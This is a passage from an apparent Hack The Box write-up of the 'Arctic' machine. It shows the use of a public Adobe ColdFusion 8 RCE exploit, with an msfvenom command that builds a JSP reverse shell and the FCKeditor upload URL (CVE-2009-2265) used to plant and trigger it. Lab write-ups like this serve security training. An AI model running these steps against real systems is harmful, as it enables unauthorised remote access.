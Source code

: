 Most of the scripts are cross-site scripting but there is a particular script than abuses a RCE vulnerability: 

```
Adobe ColdFusion 8 - Remote Command Execution (RCE)                     | cfm/webapps/50057.py
```

Let's get this script:

```bash
$ searchsploit -m cfm/webapps/50057.py
  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/htb/machines/Windows/Arctic/50057.py
```

The exploit is essentially doing three things: 

1. It generates a **JSP** (JavaServer Pages) reverse shell file with `msfvenom -p java/jsp_shell_reverse_tcp LHOST={lhost} LPORT={lport} -o {filename}.jsp` 
2. Afterward, it sends it via an arbitrary file upload vulnerability in FCKeditor (**[CVE-2009-2265](https://www.codewatch.org/blog/?p=299)**) at this URL: `http://{rhost}:{rport}/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00`
3. Then, it executes this JSP malicious file by opening the following URL: `http://{rhost}:{rport}/userfiles/file/{filename}.jsp`

We just have to edit these information:

![](/assets/img/htb/machines/windows/easy/arctic/exploit_modif.png)

Finally, we can execute the exploit, wait a little and we have a shell as `tolis`:

```bash
$  python3 50057.py
```
